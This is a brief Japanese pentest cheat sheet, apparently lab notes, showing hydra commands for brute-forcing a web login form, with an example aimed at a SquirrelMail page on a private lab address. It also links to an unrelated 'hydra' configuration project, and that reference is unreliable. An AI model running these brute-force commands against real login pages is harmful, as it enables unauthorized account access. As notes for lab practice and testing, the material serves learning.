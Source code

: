 # hydra

## Brute forcing/総当たり

### Webアプリ上のログインフォーム

※事前にBurpでリクエストとレスポンスをキャプチャして、hydraでBruteforceしたいパラメータのIDを把握しておき<loginname_id>や<password_id>に入れる。
```
hydra -l <loginname> -P <wordlist> <ip> http-post-form "/<url>:<loginname_id>=^USER^&<password_id>=^PASS^:<string_when_you_failed>"
```

例）ユーザは固定でパスワードはファイル記載のものを使う場合
```
hydra -l milesdyson -P log1.txt 10.10.35.30 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect"
```

## references

- https://github.com/facebookresearch/hydra



